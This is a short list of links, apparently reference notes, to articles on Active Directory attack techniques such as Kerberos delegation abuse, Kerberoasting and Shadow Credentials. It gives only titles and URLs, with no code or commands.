[AD 提权-委派攻击 - 扛枪的书生 - 博客园](https://www.cnblogs.com/kqdssheng/p/18952409)  
[浅谈约束委派攻击 - 先知社区](https://xz.aliyun.com/news/12189)  
[Kerberoast | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast)  
[Self Exploit | Undergrad CyberSec Notes](https://zflemingg1.gitbook.io/undergrad-tutorials/active-directory-acl-abuse/self)  
[(KCD) Constrained | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)  
[(RBCD) Resource-based constrained | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)  
[Resource-Based Constrained Delegation Abuse](https://blog.netwrix.com/2022/09/29/resource-based-constrained-delegation-abuse/)  
[Shadow Credentials: Abusing Key Trust Account Mapping for Account Takeover | by Elad Shamir | Posts By SpecterOps Team Members](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
